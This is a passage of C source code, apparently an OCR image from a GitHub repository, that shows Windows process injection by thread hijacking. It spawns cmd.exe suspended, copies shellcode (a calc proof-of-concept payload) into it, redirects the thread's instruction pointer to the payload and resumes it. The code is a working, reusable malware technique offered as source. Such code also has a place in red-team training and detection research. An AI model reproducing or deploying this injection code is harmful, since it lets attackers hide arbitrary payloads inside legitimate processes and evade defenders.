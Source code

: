 ```c
    }

    // Copy x65 Calc Shellcode to Remote Buffer
    if (!WriteProcessMemory(hProcess, lpRemoteBuffer, Payload, sizeof(Payload), NULL)) {
        wprintf(L"Failed to Copy Shellcode to Remote Buffer %d\n", GetLastError());
        return -1;
    }

    // Get Thread Context
    if (!GetThreadContext(hThread, &lpThreadContext)) {
        wprintf(L"Failed to Get Thread Context %d\n", GetLastError());
        return -1;
    }

    lpThreadContext.Rip = lpRemoteBuffer;

    if (!SetThreadContext(hThread, &lpThreadContext)) {
        wprintf(L"Failed to Set Thread Context %d\n", GetLastError());
        return -1;
    }

    ResumeThread(hThread);
    WaitForSingleObject(hThread, INFINITE);
    getchar();
    return 0;
}



BOOL CreateDummyProcess(OUT HANDLE* hProcess, OUT HANDLE* hThread, OUT DWORD* dProcessId, OUT DWORD* dThreadId) {
	WCHAR               wPath           [MAX_PATH * 2];
	WCHAR               wWinDir           [MAX_PATH];
    BOOL                isProcessCreated   = FALSE;
	STARTUPINFO         lpStartupInfo      = { 0 };
    PROCESS_INFORMATION lpProcessInfo      = { 0 };


    RtlSecureZeroMemory(&lpStartupInfo, sizeof(STARTUPINFO));
    RtlSecureZeroMemory(&lpProcessInfo, sizeof(PROCESS_INFORMATION));

    // Set the size of the strucure
    lpStartupInfo.cb = sizeof(STARTUPINFO);

    // Getting the value of the %WINDIR% environment variable
	if (!GetEnvironmentVariableW(L"WINDIR", wWinDir, MAX_PATH)) {
		printf("GetEnvironmentVariableW Failed %d\n", GetLastError());
		return FALSE;
	}

    wsprintf(wPath, L"%s\\System32\\%s", wWinDir, L"cmd.exe");

	// Creating the full target process path 
    isProcessCreated = CreateProcessW(
        NULL,
        wPath, 
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        NULL,
        &lpStartupInfo,
```